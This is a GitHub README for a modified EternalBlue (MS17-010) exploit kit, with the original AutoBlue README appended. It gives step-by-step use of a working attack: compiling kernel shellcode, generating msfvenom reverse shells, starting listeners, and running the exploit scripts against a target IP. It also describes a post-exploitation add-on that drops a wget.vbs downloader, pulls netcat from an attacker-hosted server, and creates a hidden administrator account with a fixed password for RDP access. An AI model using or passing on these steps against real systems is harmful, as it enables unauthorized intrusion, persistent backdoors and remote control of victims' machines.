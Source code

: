 ########################### Auto Blue Light Special ###########################

It's called Auto Blue Light Special because it's just a modification of AutoBlue and because of a conversation my friend Julien and I were having about the old school K-Mart blue light specials

This is a modification of 3ndG4me's AutoBlue found here: https://github.com/3ndG4me/AutoBlue-MS17-010
I also stole the code to add a user from thel3l: https://gist.github.com/thel3l/993f8ed81a56e10525dd4812ad01ff2a

# What does this script do?
This script exploits MS17-010 then writes wget.vbs to a folder and gives you a limited shell. You can use wget.vbs to transfer a file to the victim (nc.exe or maybe your custom executable) to obtain a not-so-limited shell. It also creates a user and adds that user to the administrators group so you can RDP to the machine.

# Have you tested this?
Only on Windows XP x86. It's only going to work when using the zzz_exploit.py script. You might be able to re-use my code in eternalblue_exploit(7,8,10).py to perform these actions. Maybe, maybe not. I haven't tried. To find my modifications, open zzz_exploit.py and ctrl+f for ReverendShell.

# Why did I modify this script?
I was rooting an XP box and was using AutoBlue because I really like it. It just works. However it gives you a rather limited, non-interactive shell. You can't change directories with this shell, I couldn't echo text to a file and I couldn't copy files from a SMB share (which I don't think is the shell's fault). I needed a better shell but to do that required some way of transferring a file to the victim. I could run cscript but I couldn't echo to a file, hence the modification. With wget.vbs you can download a file you're hosting on, say, a python SimpleHTTPServer. Later on I found thel3l's code to add a user and incorporated it into this script.

# How do I use it?
Follow the directions as written. If everything is successful the output will display which folder the wget.vbs file is in. From there simply issue:
`> cscript c:\foldername\wget.vbs http://your.ip.here:port/ncWin32.exe c:\path\on\victim\ncWin32.exe`

And if you want to RDP to the target after the script is run you can issue:
`# rdesktop -u reverendshell x.x.x.x`
The password will be: haxxx

You may view a demo video here: https://youtu.be/HOvV0utZK_w

########################### Auto Blue Light Special ###########################
####### Everything below this line is from the original AutoBlue README #######

# MS17-010 Exploit Code

This is some no-bs public exploit code that generates valid shellcode for the eternal blue exploit and scripts out the event listener with the metasploit multi-handler.

This version of the exploit is prepared in a way where you can exploit eternal blue WITHOUT metasploit. Your options for auto shell generation are to generate shellcode with msfvenom that has meterpreter (i.e. with metasploit) or to generate a normal windows cmd shell (i.e. without metasploit). You may also select between staged and stageless payloads if you wish to avoid utilizing the msfconsole entirely and use netcat/your own shell handler. Alternatively you can elect to brew in your own shellcode.

This allows for this version of the MS17-010 exploit to be a bit more flexible, and also fully functional, as many exploits leave out the steps to compile the kernel shellcode that usually comes with it.

Included is also an enternal blue checker script that allows you to test if your target is potentially vulnerable to MS17-010

run `python eternalblue_checker.py <TARGET-IP>`


## TODO:
1. Testing with non-msfvenom shellcode

## VIDEO TUTORIALS:
- https://www.youtube.com/watch?v=p9OnxS1oDc0
- https://youtu.be/2FwqryKUoX8


## USAGE:
Navigate to the `shellcode` directory in the repo:

run `./shell_prep.sh`

Follow the prompts, for example:
```
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
<YOUR-IP>
LPORT you want x64 to listen on:
<SOME PORT>
LPORT you want x86 to listen on:
<SOME OTHER PORT>
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
0
```

After the script finishes there will be a shellcode binary named `sc_all.bin` in the shellcode directory


Next, navigate to the main repo directory:

run `listener_prep.sh`

Follow the prompts, for example:
```
 /,-
  ||)
  \\_, )
   `--'
Enternal Blue Metasploit Listener

LHOST for reverse connection:
<YOUR-IP>
LPORT for x64 reverse connection:
<SOME PORT>
LPORT for x86 reverse connection:
<SOME OTHER PORT>
Enter 0 for meterpreter shell or 1 for regular cmd shell:
0
Starting listener...
```

## PWN:
If you have completed the USAGE steps, now you're ready to PWN the target.

run:

`python eternalblue_exploit7.py <TARGET-IP> <PATH/TO/SHELLCODE/sc_all.bin> <Number of Groom Connections (optional)>`

Alternatively you may use `zzz_exploit.py` which is an implementation of the "Eternal" family that uses the same technique from Eternal Romance, Synergy, and Champion.

This is not setup to send back a reverse shell or execute any sort of payload like Eternal Blue is. This uses the functions from mysmb.py to spawn a semi-interactive cmd shell. There are commented out sections of code that can be modified to interact with metasploit or send of custom payloads using the `service_exec()` function call.

All of the code execution functionality can be found in the `do_system_mysmb_session()` function.

This version of the exploit is great for targeting systems that have named pipes available to avoid crashing the target.

run:

`python zzz_exploit.py <TARGET-IP>`


Enternal Blue has only been tested on Windows 7/Server 2008, and Windows 10 10240 (x64)

zzz has only been tested on Windows XP

However the Eternal Blue exploits included in this repo also include support for Windows 8/Server 2012 and *should* work.

The zzz exploit should also work on all targets provided you have access to a named pipe. For some OS's (Windows 10) this may also require credentials of a user who can access this named pipe (This is because on newer versions, Guest and NULL sessions are not supported out of the box).

The original exploit code that this repo pulls from is located here: https://github.com/worawit/MS17-010
